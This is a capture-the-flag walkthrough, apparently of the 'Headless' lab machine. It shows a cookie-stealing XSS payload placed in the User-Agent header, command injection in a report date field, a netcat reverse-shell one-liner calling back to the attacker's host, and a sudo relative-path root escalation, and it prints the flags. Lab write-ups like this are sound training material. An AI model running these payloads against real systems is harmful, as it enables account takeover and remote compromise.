




# Headless
## Enumeration
### Port Scanning
The system got two open ports: 22 (ssh) and 5000 (upnp). But if we analyze port 5000, we quickly see that there is a Python http server running on this port:
```
┌──(kali㉿kali)-[~]
└─$ nmap $IP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-27 07:20 EDT
Nmap scan report for 10.10.11.8
Host is up (0.097s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp

Nmap done: 1 IP address (1 host up) scanned in 1.66 seconds
                                                                                                                                                           
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV $IP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-27 07:22 EDT
Nmap scan report for 10.10.11.8
Host is up (0.096s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)
|_  256 2e:b9:08:24:02:1b:60:94:60:b3:84:a9:9e:1a:60:ca (ED25519)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.11.2
|     Date: Thu, 27 Jun 2024 11:23:08 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 2799
|     Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Under Construction</title>
|     <style>
|     body {
|     font-family: 'Arial', sans-serif;
|     background-color: #f7f7f7;
|     margin: 0;
|     padding: 0;
|     display: flex;
|     justify-content: center;
|     align-items: center;
|     height: 100vh;
|     .container {
|     text-align: center;
|     background-color: #fff;
|     border-radius: 10px;
|     box-shadow: 0px 0px 20px rgba(0, 0, 0, 0.2);
|   RTSPRequest: 
|     <!DOCTYPE HTML>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: 400 - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5000-TCP:V=7.94SVN%I=7%D=6/27%Time=667D4B9A%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,BE1,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/2\.2\.2\
SF:x20Python/3\.11\.2\r\nDate:\x20Thu,\x2027\x20Jun\x202024\x2011:23:08\x2
SF:0GMT\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:
SF:\x202799\r\nSet-Cookie:\x20is_admin=InVzZXIi\.uAlmXlTvm8vyihjNaPDWnvB_Z
SF:fs;\x20Path=/\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\
SF:x20lang=\"en\">\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"UTF-8\">\n\
SF:x20\x20\x20\x20<meta\x20name=\"viewport\"\x20content=\"width=device-wid
SF:th,\x20initial-scale=1\.0\">\n\x20\x20\x20\x20<title>Under\x20Construct
SF:ion</title>\n\x20\x20\x20\x20<style>\n\x20\x20\x20\x20\x20\x20\x20\x20b
SF:ody\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20font-family:\
SF:x20'Arial',\x20sans-serif;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20background-color:\x20#f7f7f7;\n\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20margin:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20padding:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20di
SF:splay:\x20flex;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20justif
SF:y-content:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:align-items:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20height:\x20100vh;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\n\x20\x20\x20\
SF:x20\x20\x20\x20\x20\.container\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20text-align:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20background-color:\x20#fff;\n\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20border-radius:\x2010px;\n\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20box-shadow:\x200px\x200px\x2020px\x20rgba\(0,\x20
SF:0,\x200,\x200\.2\);\n\x20\x20\x20\x20\x20")%r(RTSPRequest,16C,"<!DOCTYP
SF:E\x20HTML>\n<html\x20lang=\"en\">\n\x20\x20\x20\x20<head>\n\x20\x20\x20
SF:\x20\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20\x20\x
SF:20\x20\x20<title>Error\x20response</title>\n\x20\x20\x20\x20</head>\n\x
SF:20\x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Error\x20resp
SF:onse</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\x20400</p>
SF:\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Bad\x20request\x20vers
SF:ion\x20\('RTSP/1\.0'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\
SF:x20code\x20explanation:\x20400\x20-\x20Bad\x20request\x20syntax\x20or\x
SF:20unsupported\x20method\.</p>\n\x20\x20\x20\x20</body>\n</html>\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 109.26 seconds
                                                                                                                                                           
┌──(kali㉿kali)-[~]
└─$ 
```

### HTTP
The welcome site of the web server is the following:


If we click on the "For questions" button, we will be redirected to `/support` were we can enter some contact information:


If we enumerate the web directories, we can also find a `/dashboard` page, which responses with an unauthorized error:
```
┌──(kali㉿kali)-[~]
└─$ feroxbuster --url http://10.10.11.8:5000/ --depth 2 --wordlist /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt 
                                                                                                                                                           
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.3
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.11.8:5000/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.3
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 2
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        5l       31w      207c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       93l      179w     2363c http://10.10.11.8:5000/support
200      GET       96l      259w     2799c http://10.10.11.8:5000/
500      GET        5l       37w      265c http://10.10.11.8:5000/dashboard
[####################] - 2m     30001/30001   0s      found:3       errors:28     
[####################] - 2m     30000/30000   229/s   http://10.10.11.8:5000/                                                                                                                                                                                                                                         
┌──(kali㉿kali)-[~]
└─$ 
```


So probably we have to get access to this page to get any further. If we inspect the cookies of the website, we can find this one:
```
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
```

Base64 decoded this will result in `"user"` and some cryptic characters. Maybe some kind of password or token. Manipulation the cookie, for example to `"admin"` wasn't successful. So let's check the contact form for some errors.

I just entered some stuff in the hope of receiving some kind of error. And indeed, if we put in special characters, for example, `${{<%[%'"}}%\`, in the message field, we get another response:


According to the warning, the shown headers are redirected to the administrator. It contains none of our input, so probably we don't reach something with that. I also tried a lot of inputs to bypass that filter in the form, but without any success.

#### Payload
The next guess is to inject some code in one of the shown headers. If they are redirected to the admin, we can maybe steal the admin cookie. I used the following payload on several headers:
```js
<script>let cookie = document.cookie;window.location.replace("http://10.10.14.89:8081/" + cookie);</script>
```

And it was actually successful in the `User-Agent` header:
```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 8081
Listening on 0.0.0.0 8081
Connection received on 10.10.11.8 40244
GET /is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1
Host: 10.10.14.89:8081
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://localhost:5000/
Connection: keep-alive
Upgrade-Insecure-Requests: 1


┌──(kali㉿kali)-[~]
└─$ 
```

With that admin cookie we can know access the dashboard again and receive the following page:


We can generate a report for the given date. The corresponding POST request contains the following data field:
```
date=2023-09-15
```

#### Reverse shell
I tried some SQL injection strings here, but they weren't successful. Then I tried shell code:
```
date=2023-09-15;ls
```

And got the following response:
```html
<div id="output-content" style="background-color: green; color: white; padding: 10px; border-radius: 5px;">
    Systems are up and running!
    app.py
    dashboard.html
    hackattempt.html
    hacking_reports
    index.html
    inspect_reports.py
    report.sh
    support.html

</div>
```

The last step is to create a reverse shell with this RCE. I used the following payload:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.89 8081 >/tmp/f
```

URL encoded in the POST request:
```
date=2023-09-15;rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.89+8081+>/tmp/f
```

And I was able to catch and stabilize it:
```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 8081
Listening on 0.0.0.0 8081
Connection received on 10.10.11.8 48620
/bin/sh: 0: can't access tty; job control turned off
$ python --version
/bin/sh: 1: python: not found
$ python3 --version
Python 3.11.2
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
dvir@headless:~/app$ ^Z
zsh: suspended  nc -lvnp 8081

┌──(kali㉿kali)-[~]
└─$ stty size
83 155

┌──(kali㉿kali)-[~]
└─$ echo $TERM
xterm-256color

┌──(kali㉿kali)-[~]
└─$ stty raw -echo;fg
[1]  + continued  nc -lvnp 8081

dvir@headless:~/app$ 
dvir@headless:~/app$ export TERM=xterm-256color
dvir@headless:~/app$ stty rows 83 columns 155
dvir@headless:~/app$ 
```

#### Explanation
The app contains the following code for the trigger of the hacking report generation:
```python
if ("<" in message and ">" in message) or ("{{" in message and "}}" in message):
    request_info = {
        "Method": request.method,
        "URL": request.url,
        "Headers": format_request_info(dict(request.headers)),
    }

    formatted_request_info = format_request_info(request_info)
    html = render_template('hackattempt.html', request_info=formatted_request_info)

    filename = f'{random.randint(1, 99999999999999999999999)}.html'
    with open(os.path.join(hacking_reports_dir, filename), 'w', encoding='utf-8') as html_file:
        html_file.write(html)

    return html
```

If the user input contains `<>` or `{{}}` the report will be generated.

Another script iterates over those reports every 60 seconds and accesses it:
```python
while True:
    login_url = "http://localhost:5000/"
    html_directory = "/home/dvir/app/hacking_reports"
    html_files = [f for f in os.listdir(html_directory) if f.endswith(".html")]
    base_url = "http://localhost:5000/hacking_reports/"

    for html_file in html_files:
        number = extract_number(html_file)
        url = base_url + number

        print(f"Trying: {url}")

        try:
            driver.get(login_url)
            driver.get(url)
            time.sleep(2)
        except Exception as e:
            print(f"Error: {e}")
            pass
        os.remove("/home/dvir/app/hacking_reports/" + html_file)
    time.sleep(60)
```

That causes, that the generated report is opened with a Firefox web driver. That executes the injected JavaScript.

Back in the first script, we find this responsible line of code for the health report, which is vulnerable to the shell injection:
```python
script_output = os.popen(f'bash report.sh {date}').read()
```

## User flag
The user flag is located in the users home directory:
```
dvir@headless:~$ ls -al 
total 52
drwx------  8 dvir dvir 4096 Jun 28 13:58 .
drwxr-xr-x  3 root root 4096 Sep  9  2023 ..
drwxr-xr-x  3 dvir dvir 4096 Feb 16 23:49 app
lrwxrwxrwx  1 dvir dvir    9 Feb  2 16:05 .bash_history -> /dev/null
-rw-r--r--  1 dvir dvir  220 Sep  9  2023 .bash_logout
-rw-r--r--  1 dvir dvir 3393 Sep 10  2023 .bashrc
drwx------ 12 dvir dvir 4096 Sep 10  2023 .cache
lrwxrwxrwx  1 dvir dvir    9 Feb  2 16:05 geckodriver.log -> /dev/null
drwx------  3 dvir dvir 4096 Feb 16 23:49 .gnupg
-rw-------  1 dvir dvir   70 Jun 28 13:58 .lesshst
drwx------  4 dvir dvir 4096 Feb 16 23:49 .local
drwx------  3 dvir dvir 4096 Sep 10  2023 .mozilla
-rw-r--r--  1 dvir dvir  807 Sep  9  2023 .profile
lrwxrwxrwx  1 dvir dvir    9 Feb  2 16:06 .python_history -> /dev/null
drwx------  2 dvir dvir 4096 Feb 16 23:49 .ssh
-rw-r-----  1 root dvir   33 Jun 28 13:07 user.txt
dvir@headless:~$ cat user.txt 
3668c8298175717afbb3efeed0e1904c
dvir@headless:~$ 
```

## System enumeration
We can find mail of the logged-in user:
```
dvir@headless:/$ cat /var/mail/dvir 
Subject: Important Update: New System Check Script

Hello!

We have an important update regarding our server. In response to recent compatibility and crashing issues, we've introduced a new system check script.

What's special for you?
- You've been granted special privileges to use this script.
- It will help identify and resolve system issues more efficiently.
- It ensures that necessary updates are applied when needed.

Rest assured, this script is at your disposal and won't affect your regular use of the system.

If you have any questions or notice anything unusual, please don't hesitate to reach out to us. We're here to assist you with any concerns.

By the way, we're still waiting on you to create the database initialization script!
Best regards,
Headless
dvir@headless:/$ 
```

Special privileges sound promising. We just have to locate the script.

If we list our sudo permissions we can find that we have NOPASSWD root permission to a script:
```
dvir@headless:~$ sudo -l 
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
dvir@headless:~$ 
```

That is probably the script, that was mentioned in the mail. Let's inspect it further:
```
dvir@headless:~$ ls -al /usr/bin/syscheck 
-r-xr-xr-x 1 root root 768 Feb  2 16:11 /usr/bin/syscheck
dvir@headless:~$ 
dvir@headless:~$ file /usr/bin/syscheck
/usr/bin/syscheck: Bourne-Again shell script, ASCII text executable
dvir@headless:~$ 
dvir@headless:~$ 
dvir@headless:~$ cat /usr/bin/syscheck
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
dvir@headless:~$ 
```

### Privilege escalation
The mail says something about a missing database initialization script. And the script that we found also tries to execute it, but it doesn't exist:
```sh
if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi
```
```
dvir@headless:~$ find / 2>/dev/null | grep "initdb.sh"
dvir@headless:~$ 
```

Also, the script calls it in the current working directory. Since we have sudo permission to run `/usr/bin/syscheck`, we can just create a new `./initdb.sh`, which is than executes with root permissions:
```
dvir@headless:/tmp$ vi initdb.sh
dvir@headless:/tmp$ cat initdb.sh 
#!/bin/bash
/bin/bash
dvir@headless:/tmp$ 
dvir@headless:/tmp$ sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.0G
System load average:  0.00, 0.02, 0.00
Database service is not running. Starting it...

id
uid=0(root) gid=0(root) groups=0(root)


```

And we became root!

## Root flag
In the last step we can easily grab the root flag:
```
cd  /root
ls -al
total 40
drwx------  6 root root 4096 Jun 28 13:07 .
drwxr-xr-x 18 root root 4096 Feb 16 23:49 ..
lrwxrwxrwx  1 root root    9 Feb  2 16:07 .bash_history -> /dev/null
-rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
drwx------  5 root root 4096 Sep 10  2023 .cache
-rw-------  1 root root   20 Feb 17 00:31 .lesshst
drwxr-xr-x  3 root root 4096 Sep 10  2023 .local
drwx------  3 root root 4096 Sep 10  2023 .mozilla
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r-----  1 root root   33 Jun 28 13:07 root.txt
drwx------  2 root root 4096 Sep  9  2023 .ssh
cat root.txt
a43050f9acbe07583b655c53df4b47b3
```